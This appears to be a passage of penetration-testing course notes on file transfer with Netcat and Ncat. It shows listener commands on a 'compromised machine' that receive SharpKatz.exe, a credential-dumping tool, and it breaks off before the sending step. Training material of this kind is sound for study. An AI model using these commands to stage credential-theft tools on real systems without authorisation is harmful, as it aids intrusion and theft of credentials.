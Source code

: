 ## Netcat
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
$ nc -l -p 8000 > SharpKatz.exe
```
If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
#### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.